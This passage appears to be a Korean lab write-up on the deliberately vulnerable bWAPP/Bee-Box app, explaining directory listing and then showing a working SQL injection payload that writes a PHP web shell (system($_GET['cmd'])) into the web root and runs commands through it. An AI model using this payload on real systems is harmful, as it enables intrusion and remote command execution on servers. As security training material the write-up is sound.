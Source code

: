 <br><br>

Directory Listing 취약점은 URL에 특정 Directory를 입력했을 때(Directory이므로 `/` 로 끝난다.),

해당 경로의 모든 파일이 Listing 되는 취약점이다.

이 취약점이 발생했을 때 아래와 같이 상단에 "Index of ~~" 문자열이 출력된다. 

![WindowsTerminal_yAhitvN0Xf](https://user-images.githubusercontent.com/79683414/135023657-e3d9e22b-7f30-444b-9309-057382e2a95c.png)

<br><br>

위의 개념들을 이용해서 Injection 해보자.

"/bWAPP/images/"에 "sqli.php" 파일을 생성할 것이다.

`0' union select 1, "<?php system($_GET['cmd']) ?>",3,4,5,6,7 into outfile "/var/www/bWAPP/images/sqli.php" # `

![chrome_q29EndecYo](https://user-images.githubusercontent.com/79683414/135026604-59705f5f-db6e-404c-bc6a-d13ee3236fda.png)

<br><br>

Warning 이 뜨면서 Injection이 성공적으로 수행된 것을 보면

Bee-Box 의 DB에 `--secure-file-priv` 옵션이 비활성화 되어있는 듯 하다.

Directory listing 을 이용해 "sqli.php"파일이 생성되어있는지 확인해보자.

![chrome_YtcrfvD5vF](https://user-images.githubusercontent.com/79683414/135026920-87a0cff7-87cd-41fb-b170-a8cab379f186.png)

<br>

<br>

성공!!

이제 GET 방식을 이용해 "cmd" 변수에 원하는 명령을 입력해주면 된다.

![chrome_mFeFkvVlSI](https://user-images.githubusercontent.com/79683414/135027174-5bdc9301-a3de-45c9-b78f-0611a0b5da0a.png)
![chrome_Q6B7FHMfpr](https://user-images.githubusercontent.com/79683414/135027176-9240c59f-98b3-43f1-85dc-898f0bd98a48.png)
![chrome_jx7I1iojLx](https://user-images.githubusercontent.com/79683414/135027182-429bb594-94a9-4a68-8c54-39c1c1a44389.png)

